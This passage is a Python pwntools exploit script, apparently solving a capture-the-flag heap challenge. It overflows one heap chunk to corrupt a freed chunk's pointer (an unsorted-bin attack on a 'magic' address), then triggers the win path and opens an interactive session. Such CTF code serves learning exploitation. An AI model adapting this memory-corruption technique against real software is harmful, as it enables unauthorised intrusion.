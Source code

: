```python
	p.sendline(str(idx))
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.sendline(content)
 
def DeleteHeap(idx):
	p.recvuntil(':')
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(idx))

CreateHeap(0x30,'aaaa')
CreateHeap(0x80,'bbbb')
CreateHeap(0x10,'cccc')
gdb.attach(p)

DeleteHeap(1)
gdb.attach(p)

magic = 0x6020A0

EditHeap(0, 0x50, 0x30 * b"a" + p64(0) + p64(0x91) + p64(0) + p64(magic - 0x10))
gdb.attach(p)

CreateHeap(0x80,'dddd')
gdb.attach(p)

p.sendlineafter(':','4869')
p.interactive()
```

